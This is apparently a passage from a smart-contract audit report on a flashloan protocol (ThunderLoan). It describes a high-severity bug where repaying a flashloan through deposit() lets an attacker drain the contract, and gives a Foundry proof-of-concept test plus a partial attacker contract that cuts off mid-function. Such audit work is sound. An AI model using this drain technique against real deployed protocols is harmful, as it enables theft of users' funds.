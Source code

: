 ```diff
    }
```




### [H-2] All the funds can be stolen if the flashloan is returned using `deposit()`

**Description:** The `flashloan` function checks to ensure that ending balance is always greater than the initial balance + fee (for borrowing).But this check is done using token.balanceOf(address(assetToken)).
Exploiting this vulnerability, an attacker can return the flashloan using the `deposit` function instead of `repay` function. This allows the attacker to mint AssetToken and subsequently redeem it using `redeem` function. This will result in  apparent increase in the Asset contract's balance and  the check will pass and the flashloan function doesn't revert.

```javascript
    uint256 endingBalance = token.balanceOf(address(assetToken));

```

**Impact:**  All the funds of the AssetContract can be stolen.


**Proof of Code:**

**Place the following  test in the ThunderLoanTest.t.sol**

```javascript
    function testUserDepositInsteadOfRepayToStealFunds() public setAllowedToken hasDeposits{
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor =  new DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fee);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        dor.redeemMoney();
        vm.stopPrank();

        console.log("balance of dor contract",tokenA.balanceOf(address(dor))); //50157185829891086986
        console.log("balance of tokenA contract", address(tokenA).balance); //0
        console.log("amount borrowed + fee", 50e18 + fee); //50150000000000000000
        assert(tokenA.balanceOf(address(dor)) > 50e18 + fee);
    }

```


**Place the following contract  in the ThunderLoanTest.t.sol**

```javascript
contract  DepositOverRepay is  IFlashLoanReceiver{
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    IERC20 s_token;
    constructor(address _thunderLoan){
        thunderLoan = ThunderLoan(_thunderLoan);
    }
    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /* params*/
    )
        external
        returns (bool)
        {
```